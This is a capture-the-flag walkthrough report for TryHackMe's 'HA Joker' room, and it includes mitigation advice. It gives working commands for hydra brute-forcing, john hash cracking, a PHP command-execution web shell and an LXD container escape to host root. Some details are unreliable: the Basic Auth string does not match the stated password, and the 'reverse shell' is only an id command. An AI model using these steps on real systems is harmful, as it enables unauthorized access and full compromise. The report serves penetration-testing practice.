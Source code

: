 # HA Joker - VAPT Walkthrough Report 

**Prepared by:** Nishanth Antony  
**Date:** August 18, 2025  
**Difficulty:** Medium  
**Category:** Web Exploitation / Privilege Escalation  
**Platform:** TryHackMe (THM)  

---

## 1. Reconnaissance Steps

- **Objective:** Identify open ports, services, and potential vulnerabilities.
- **Commands Used:**  
  ```bash
  nmap -A <target_ip>
  ```
- **Findings:**
  - Open ports: HTTP (80, unauthenticated), HTTP (8080, Basic Authentication), SSH (22).
  - Apache version: 2.4.29.
  - Port 80 revealed files: `secret.txt` (conversation with user `joker`) and `phpinfo.php` (backend information).
  - Port 8080 required Basic Authentication.

---

## 2. Exploitation Process

### Step 1 – Web Enumeration (Port 80)
- Identified files on port 80: `secret.txt` and `phpinfo.php`.
- `secret.txt` contained a conversation referencing user `joker`.
- `phpinfo.php` exposed server configuration details.

### Step 2 – Brute-Forcing Basic Authentication (Port 8080)
- Used `hydra` to brute-force credentials for `joker` on port 8080:
  ```bash
  hydra -l joker -P /usr/share/wordlists/rockyou.txt <target_ip> -s 8080 http-get /
  ```
- **Result:** Obtained password `hannah`.

### Step 3 – CMS Access and Directory Enumeration
- Logged into port 8080 with `joker:hannah` (Basic Auth: `am9rZXI6MTIzNA==`).
- Identified CMS-based blog and enumerated directories:
  - Found `/administrator/` (admin panel).
  - Discovered `backup.zip` (encrypted backup file).

### Step 4 – Backup File Analysis
- Downloaded `backup.zip` and cracked encryption using password `hannah`.
- Extracted database file `joomladb.sql`.
- Searched for user data:
  ```bash
  grep -i "values" joomladb.sql | grep -i super
  ```
- Identified superuser `admin` with hashed password.

### Step 5 – Cracking Admin Password
- Saved hash to `hash.txt`:
  ```text
  $2y$10$b43UqoH5UpXokj2y9e/8U.LD8T3jEQCuxG2oHzALoJaj9M5unOcbG
  ```
- Cracked using `john`:
  ```bash
  john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
  ```
- **Result:** Password `abcd1234`.

### Step 6 – Gaining Shell Access
- Logged into `/administrator/` with `admin:abcd1234`.
- Uploaded a PHP reverse shell:
  ```php
  <?php echo shell_exec("id"); ?>
  ```
- **Result:** Gained shell as `www-data` (member of `lxd` group).

### Step 7 – Privilege Escalation via LXD
- Confirmed `www-data` belonged to `lxd` group, allowing container creation.
- Researched LXD privilege escalation and identified available images.
- Created a privileged container, mounting the host’s root filesystem:
  ```bash
  lxc init priv-container -c security.privileged=true
  lxc config device add priv-container rootfs disk path=/mnt source=/
  lxc start priv-container
  lxc exec priv-container /bin/bash
  ```
- Navigated to `/mnt/root` inside the container to access the host’s `/root`.

### Step 8 – Flag Extraction
- Found `final.txt` in `/root`:
  ```text
  [Contents of final.txt not provided]
  ```

---

## 3. Proof of Concept (PoC)

- **Basic Authentication Brute Force:**  
  ```bash
  hydra -l joker -P /usr/share/wordlists/rockyou.txt <target_ip> -s 8080 http-get /
  ```
  Obtained `joker:hannah`.
- **Password Hash Cracking:**  
  ```bash
  john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
  ```
  Cracked `admin:abcd1234`.
- **Shell Upload:**  
  Uploaded PHP reverse shell to gain `www-data` access.
- **LXD Privilege Escalation:**  
  Mounted host root filesystem in a privileged LXD container to access `/root/final.txt`.

---

## 4. Privilege Escalation

- Exploited `www-data`’s `lxd` group membership to create a privileged container.
- Mounted the host’s root filesystem to gain root-level access.

---

## 5. Mitigation Recommendations

- **Web Server Hardening:**  
  - Remove sensitive files (`secret.txt`, `phpinfo.php`) from public access.
  - Restrict directory access (e.g., `/administrator/`) with authentication.
- **Authentication Security:**  
  - Enforce strong passwords for Basic Authentication and CMS users.
  - Use bcrypt with higher iteration counts for password hashing.
  - Implement multi-factor authentication.
- **Backup File Security:**  
  - Avoid storing backups in publicly accessible directories.
  - Use strong encryption for sensitive files.
- **LXD Hardening:**  
  - Remove untrusted users from the `lxd` group.
  - Disable privileged containers or restrict root filesystem mounting.
- **Patch Management:**  
  - Update Apache (2.4.29 is outdated) and CMS to the latest versions.
  - Monitor logs for unauthorized access attempts.

---

## 6. Lessons Learned

- **Weak Authentication:** Basic Authentication with weak passwords is easily brute-forced.
- **Exposed Files:** Publicly accessible files (`secret.txt`, `phpinfo.php`, `backup.zip`) leak critical information.
- **LXD Misconfiguration:** Membership in the `lxd` group can lead to full system compromise.
- **Backup Security:** Encrypted backups with reused passwords are vulnerable.
- **CMS Vulnerabilities:** Admin access enables shell uploads, escalating to system compromise.

---

## 7. Skills Practiced

- Network and service scanning (`nmap`)
- Web enumeration and file discovery
- Brute-forcing with `hydra`
- Password hash cracking with `john`
- CMS exploitation and reverse shell upload
- LXD-based privilege escalation
- Secure reporting and mitigation strategies
